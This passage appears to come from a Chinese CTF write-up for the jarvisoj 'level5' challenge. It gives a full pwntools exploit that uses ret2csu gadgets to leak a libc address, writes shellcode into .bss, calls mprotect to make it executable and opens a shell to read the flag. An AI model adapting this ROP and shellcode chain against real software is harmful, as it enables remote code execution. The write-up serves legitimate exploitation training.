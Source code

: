 写入一部分`exp`之后进行调试,可以看到`write`地址![泄露的write地址.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghezzuuamxj30m101dmx4.jpg)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(log_level = "debug",arch = "amd64",os = "linux")

io = process("./level5")
if args.g:
	gdb.attach(io)
#io = remote("pwn2.jarvisoj.com",9884)

elf = ELF("./level5",checksec=False)
lib = ELF("libc-2.19.so",checksec=False)

write_got = elf.got["write"]
read_got = elf.got["read"]
vulner_addr = elf.sym["vulnerable_function"]
bss_addr = elf.bss()

csu_op = 0x00400690
csu_ed = 0x004006AA

def csu(r12,rdx,rsi,rdi,ret):
	global csu_ed,csu_op
	payload1 = flat([0x88*'a',csu_ed,p64(0),p64(1),r12,rdx,rsi,rdi,csu_op,0x38*'a',ret])
	io.recvuntil("Input:\n")
	io.sendline(payload1)
	sleep(1)

csu(write_got,8,write_got,1,vulner_addr)
write_addr = u64(io.recv(6).ljust(8,'\x00'))
libc = write_addr - lib.sym['write']
mprotect_addr = libc + lib.sym["mprotect"]

payload2 = flat([mprotect_addr,asm(shellcraft.sh())])#<-通过mprotect函数的来写入bss段，然后再执行mprotect，getshell
csu(read_got,len(payload2),bss_addr,0,vulner_addr)
io.send(payload2)


csu(bss_addr, 7, 0x1000, 0x600000, bss_addr + 8)
print 'bss_addr = ' + hex(bss_addr)

io.sendline('cat flag')
io.interactive()
```

![远程通过.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghf012ohs3j30mw086js6.jpg)最后得到flag.
